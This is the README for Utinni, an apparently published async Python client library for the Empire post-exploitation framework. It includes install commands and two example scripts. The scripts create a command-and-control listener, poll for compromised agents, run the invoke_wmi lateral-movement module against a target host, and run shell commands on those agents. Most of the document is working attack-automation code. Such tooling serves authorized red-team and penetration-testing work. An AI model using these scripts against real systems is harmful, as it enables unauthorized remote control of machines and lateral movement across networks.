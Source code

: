 <p align="center">
  <img src="https://user-images.githubusercontent.com/5151193/107455866-b6778d80-6b0c-11eb-9e7d-14221e2aa582.png" alt="Utinni" height="300"/>
</p>

# Utinni

An async Python client library for Empire's RESTful API 

(Only works with the [BC-Security Empire fork](https://github.com/BC-SECURITY/Empire))

# Table of Contents

* [Utinni](#utinni)
  + [Installing](#installing)
  + [Examples](#examples)
  + [FAQ](#faq)

## Installing

Via Pip:

- `pip3 install utinni`

Docker image:

- `docker pull byt3bl33d3r/utinni`

## Examples

See the [examples](/../master/src/examples) folder for more.

Simple example showing basic usage:

```python
import asyncio
from utinni import EmpireApiClient

async def main():
    # Create client instance
    empire = EmpireApiClient(host="localhost", port="1337")

    # Login to Empire's RESTful API
    await empire.login("username", "password")
    print("* Logged into Empire")

    # Create a listener
    await empire.listeners.create(listener_type="http", name="Utinni", additional={"Port": 8443})

    print("* Waiting for agents...")
    while True:
        # Poll for new agents every 1 sec
        for agent in await empire.agents.get():

            #Print some basic info on the new agent
            print(f"+ New agent '{agent.name}' connected: {agent.domain}\\{agent.username}")

            # Execute a module on the agent
            module_output = await agent.execute(
                    "powershell/lateral_movement/invoke_wmi",
                    options={
                        "ComputerName": "targethost",
                        "Listener": "Utinni",
                    },
                )

            print(f"++ Executed invoke_wmi module on agent '{agent.name}'")
            print(f"++ Module output: {module_output}")

        await asyncio.sleep(1)

# Start the event loop
asyncio.run(main())
```

Example with background tasks:

```python
import asyncio
from utinni import EmpireApiClient

async def agent_poller(empire):
    # Poll for new agents every 1 sec
    print("* Waiting for agents...")
    while True:
        for agent in await empire.agents.get():
            #Print some basic info on the new agent
            print(f"+ New agent '{agent.name}' connected: {agent.domain}\\{agent.username}")

            # Do whatever you want with the agent object here and it won't block the main thread
            # In this example executing we're executing a shell command
            cmd_output = await agent.shell("dir")

            print("++ Executed shell command")
            print(f"++ Output: {cmd_output}")

        await asyncio.sleep(1)

async def main():
    # Create client instance
    empire = EmpireApiClient(host="localhost", port="1337")

    # Login to Empire's RESTful API
    await empire.login("username", "password")
    print("* Logged into Empire")

    # Create a listener
    await empire.listeners.create(listener_type="http", name="Utinni", additional={"Port": 8443})

    # Start the 'agent_poller' coroutine as a background task 
    agent_poller_task = asyncio.create_task(agent_poller(empire))

    # Do more stuff here as this thread isn't blocked.
    available_empire_modules = await empire.modules.get()

    # Wait for the agent_poller_task to complete
    # in this example it won't ever finish since it's in a infinite loop.
    await agent_poller_task

# Start the event loop
asyncio.run(main())
```

## FAQ

**1. Why?**

This was originally made for the [DeathStar](https://github.com/byt3bl33d3r/DeathStar) project, the author then realized it would be useful as a stand-alone library.

**2. Why doesn't this library provide a sync API?**

Cause it doesn't make sense. In 99% of all use cases you're going to want to call/execute/query/do multiple things at the same time. This is legitimately the perfect use case of AsyncIO.

**3. Will this work with the original Empire repository and not the BC-Security Fork?**

Probably not. You're welcome to try though.
